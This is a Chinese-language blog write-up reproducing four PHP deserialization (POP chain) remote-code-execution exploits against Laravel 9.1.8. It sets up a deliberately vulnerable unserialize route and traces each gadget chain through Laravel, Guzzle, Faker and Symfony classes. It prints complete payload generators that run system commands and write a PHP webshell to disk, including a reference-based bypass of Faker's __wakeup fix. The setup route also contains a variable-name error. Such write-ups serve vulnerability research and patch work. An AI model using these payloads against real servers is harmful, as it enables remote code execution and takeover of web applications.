


# Laravel 9.1.8 反序列化漏洞

Author: H3rmesk1t

Data: 2022.05.17

# 前言
刷推的时候, 刷到了有师傅发了`Laravel 9.1.8`的反序列化`RCE`链, 跟着漏洞描述自己复现了下.

# 环境搭建
直接下载官网`Laravel 9.1.8`的源码后`composer install`即可, 添加一个入口, 修改`routes\web.php`如下:

```php
<?php

use Illuminate\Support\Facades\Route;

/*
|--------------------------------------------------------------------------
| Web Routes
|--------------------------------------------------------------------------
|
| Here is where you can register web routes for your application. These
| routes are loaded by the RouteServiceProvider within a group which
| contains the "web" middleware group. Now create something great!
|
*/

Route::get('/', function (\Illuminate\Http\Request $request) {

    $vuln = base64_decode($request->input("vuln"));
    unserialize($ser);
    return "H3rmesk1t";
});
```

或者直接使用打包好的漏洞环境: [下载地址](https://share.weiyun.com/UZyGDHAC).

# Laravel 9.1.8 POP Chain1
## 漏洞描述

```
Laravel 9.1.8, when processing attacker-controlled data for deserialization, allows Remote Code Execution via an unserialize pop chain in __destruct in Illuminate\Broadcasting\PendingBroadcast.php and dispatch($command) in Illuminate\Bus\QueueingDispatcher.php.
```

<div align=center></div>

## 漏洞分析

根据漏洞信息的描述, 跟进`src/Illuminate/Broadcasting/PendingBroadcast.php`中的`__destruct`方法, 可以看到这里的`$this->events`和`$this->event`均为可控的, 寻找可用的`dispatch`方法.

<div align=center></div>

<div align=center></div>

这里跟进`src/Illuminate/Bus/Dispatcher.php`中的`dispatch`方法, 这里的`$command`和`$this->queueResolver`均是可控的.

<div align=center></div>

跟进`dispatchToQueue`方法, `$command`和`$this->queueResolver`均是可控的, 不难看出可以利用该方法中的`call_user_func`方法来进行命令执行的利用.

<div align=center></div>

现在需要解决的就是命令执行的语句, 注意到上图中的代码`$connection = $command->connection ?? null;`, 这里可以通过`src/Illuminate/Broadcasting/BroadcastEvent.php`中的类中变量来控制`$connection`, 从而达到命令执行的目的.

## POP Chain

```php
<?php

namespace Illuminate\Contracts\Queue{

    interface ShouldQueue {}
}

namespace Illuminate\Bus{

    class Dispatcher{
        protected $container;
        protected $pipeline;
        protected $pipes = [];
        protected $handlers = [];
        protected $queueResolver;
        function __construct()
        {
            $this->queueResolver = "system";

        }
    }
}

namespace Illuminate\Broadcasting{

    use Illuminate\Contracts\Queue\ShouldQueue;

    class BroadcastEvent implements ShouldQueue {
        function __construct() {}
    }

    class PendingBroadcast{
        protected $events;
        protected $event;
        function __construct() {
            $this->event = new BroadcastEvent();
            $this->event->connection = "calc";
            $this->events = new \Illuminate\Bus\Dispatcher();
        }
    }
}

namespace {
    $pop = new \Illuminate\Broadcasting\PendingBroadcast();
    echo base64_encode(serialize($pop));
}
```

<div align=center></div>

# Laravel 9.1.8 POP Chain2
## 漏洞描述

```
Laravel 9.1.8, when processing attacker-controlled data for deserialization, allows Remote Code Execution via an unserialize pop chain in __destruct in GuzzleHttp\Cookie\FileCookieJar.php.
```

<div align=center></div>

## 漏洞分析

根据漏洞信息的描述, 跟进`src/Cookie/FileCookieJar.php`中的`__destruct`方法, 可以看到这里会调用`$this->save`方法, 在`save`方法中, 存在`file_put_contents`方法来进行文件写入.

<div align=center></div>

接着跟进`src/Cookie/CookieJar.php`中的`shouldPersist`方法, 看看写入的内容该如何构造. 

<div align=center></div>

寻找相应可用的`getExpires`方法和`getDiscard`方法, 跟进`src/Cookie/SetCookie.php`, `$data`可控, 写入文件内容可控.

<div align=center></div>

## POP Chain

```php
<?php

namespace GuzzleHttp\Cookie{
    
    class SetCookie {
        private static $defaults = [
            'Name'     => null,
            'Value'    => null,
            'Domain'   => null,
            'Path'     => '/',
            'Max-Age'  => null,
            'Expires'  => null,
            'Secure'   => false,
            'Discard'  => false,
            'HttpOnly' => false
        ];
        function __construct()
        {
            $this->data['Expires'] = '<?php phpinfo();?>';
            $this->data['Discard'] = 0;
        }
    }

    class CookieJar{
        private $cookies = [];
        private $strictMode;
        function __construct() {
            $this->cookies[] = new SetCookie();
        }
    }

    class FileCookieJar extends CookieJar {
        private $filename;
        private $storeSessionCookies;
        function __construct() {
            parent::__construct();
            $this->filename = "C:/Tools/phpstudy_pro/WWW/laravel9/public/info.php";
            $this->storeSessionCookies = true;
        }
    }
}

namespace{
    $pop = new \GuzzleHttp\Cookie\FileCookieJar();
    echo base64_encode(serialize($pop));
}
```

<div align=center></div>

<div align=center></div>

# Laravel 9.1.8 POP Chain3
## 漏洞描述

```
Laravel 9.1.8, when processing attacker-controlled data for deserialization, allows Remote Code Execution via an unserialize pop chain in (1) __destruct in Illuminate\Broadcasting\PendingBroadcast.php .(2) __call in Faker\Generator.php . This poc bypasses __wakeup in Faker\Generator.php : https://inhann.top/2022/05/17/bypass_wakeup/
```

## 漏洞分析

根据漏洞信息的描述, 该条链子主要是`ByPass`了`src/Faker/Generator.php`中的`__wakeup`方法. 

这里先来看看`inhann`师傅提到了绕过思路, 在`src/Faker/Generator.php`中对之前的反序列化问题的修复方法是添加了一个`__wakeup`方法来将`$this->formatters`的值始终为`null array`.

<div align=center></div>

来看看如下的`demo`:

```php
<?php
class Vuln {
    public $demo1;
    public $demo2;

    public function __destruct() {
        $this->demo1 = "h3rmesk1t";

        var_dump($this->demo2);
    }

    public function __wakeup() {
        $this->demo2 = 'd1no';
    }
}

$ser = 'O:4:"Vuln":2:{s:5:"demo1";N;s:5:"demo2";R:2;}';
$unser = unserialize($ser);
var_dump($unser->demo2);
?>
```

<div align=center></div>

可以看到序列化数据`s:5:"demo2";R:2;`使得`$this->demo2`和`$this->demo1`指向的是同一个值, 即`$this->demo2`修改了, `$this->demo1`也相应地被修改了.

因此, 根据上面`demo`中的思路, 只需要找到一个对象`$demo`的一个属性`$arg`和`src/Faker/Generator.php`中的`$this->formatters`指向的是同一个值, 当`src/Faker/Generator.php`的`__wakeup`方法结束后, 在构造的反序列化链的`__destruct`方法运行之前, 对`$demo`进行赋值, 此时`$this->formatters`将不再为`null array`, 需要注意的是, 这里`$demo`的赋值需要是完全可控的.

针对上文提到的绕过思路, 需要寻找一些合适的`__wakeup`方法或者`__destruct`方法, 且最好存在如下类似的代码:

```php
$this->demo1 = $this->demo2;

$this->demo1[$this->demo2] = $this->demo3;
```

例如`Symfony\Component\Mime\Part\SMimePart.php`中的`__wakeup`方法, 其`$headers`属性继承自其父类 `AbstractPart`, `__wakeup`方法当中使用反射给`$headers`赋值.

<div align=center></div>


```php
namespace Symfony\Component\Mime\Part;
use Symfony\Component\Mime\Header\Headers;
class SMimePart extends AbstractPart {

    public function __wakeup(): void {
        $r = new \ReflectionProperty(AbstractPart::class, 'headers');
        $r->setAccessible(true);
        $r->setValue($this, $this->_headers);
        unset($this->_headers);
    }
}

namespace Symfony\Component\Mime\Header;
class UnstructuredHeader extends AbstractHeader {
    
    private $value;
    public function setValue(string $value) {
        $this->value = $value;
    }
}
```

根据该绕过思路即可对`src/Faker/Generator.php`中的`__wakeup`方法进行绕过.

## POP Chain

```php
<?php

namespace Faker {
    class Generator {
        protected $providers = [];
        protected $formatters = [];
        function __construct() {
            $this->formatter = "dispatch";
            $this->formatters = 9999;
        }
    }
}

namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        public function __construct() {
            $this->event = "calc";
            $this->events = new \Faker\Generator();
        }
    }
}

namespace Symfony\Component\Mime\Part {
    abstract class AbstractPart {
        private $headers = null;
    }
    
    class SMimePart extends AbstractPart {
        protected $_headers;
        public $h3rmesk1t;
        function __construct() {
            $this->_headers = ["dispatch"=>"system"];
            $this->h3rmesk1t = new \Illuminate\Broadcasting\PendingBroadcast();
        }
    }
}


namespace {
    $pop = new \Symfony\Component\Mime\Part\SMimePart();
    $ser = preg_replace("/([^\{]*\{)(.*)(s:49.*)(\})/","\\1\\3\\2\\4",serialize($pop));
    echo base64_encode(str_replace("i:9999","R:2",$ser));
}
```

<div align=center></div>


# Laravel 9.1.8 POP Chain4
## 漏洞描述

```
Laravel 9.1.8, when processing attacker-controlled data for deserialization, allows Remote Code Execution via an unserialize pop chain in (1) __destruct in Illuminate\Routing\PendingResourceRegistration.php .(2) register in Illuminate\Routing\PendingResourceRegistration.php.(3) __call in Faker\Generator.php . This poc bypasses __wakeup in Faker\Generator.php : https://inhann.top/2022/05/17/bypass_wakeup/
```

## 漏洞分析

根据漏洞信息的描述, 该条链子依旧是`ByPass`了`src/Faker/Generator.php`中的`__wakeup`方法. 漏洞分析逻辑如上文所述.

## POP Chain

```php
<?php

namespace Faker {
    class Generator {
        protected $providers = [];
        protected $formatters = [];
        function __construct() {
            $this->formatter = "register";
            $this->formatters = 9999;
        }

    }
}

namespace Illuminate\Routing {
    class PendingResourceRegistration {
        protected $registrar;
        protected $name;
        protected $controller;
        protected $options = [];
        protected $registered = false;
        function __construct() {
            $this->registrar = new \Faker\Generator();
            $this->name = "C:/Tools/phpstudy_pro/WWW/laravel9/public/info.php";
            $this->controller = "<?php phpinfo();system('calc');?>";
            $this->options = 8;
        }

    }
}

namespace Symfony\Component\Mime\Part {
    abstract class AbstractPart {
        private $headers = null;
    }
    class SMimePart extends AbstractPart {
        protected $_headers;
        public $h3rmesk1t;
        function __construct() {
            $this->_headers = ["register"=>"file_put_contents"];
            $this->h3rmesk1t = new \Illuminate\Routing\PendingResourceRegistration();
        }
    }
}


namespace {
    $pop = new \Symfony\Component\Mime\Part\SMimePart();
    $ser = preg_replace("/([^\{]*\{)(.*)(s:49.*)(\})/","\\1\\3\\2\\4",serialize($pop));
    echo base64_encode(str_replace("i:9999","R:2",$ser));
}
```

<div align=center></div>

<div align=center></div>


# 参考
 - [A new way to bypass __wakeup() and build POP chain](https://inhann.top/2022/05/17/bypass_wakeup/)
 - [PHP Internals Book SERIALIZATION](https://www.phpinternalsbook.com/php5/classes_objects/serialization.html)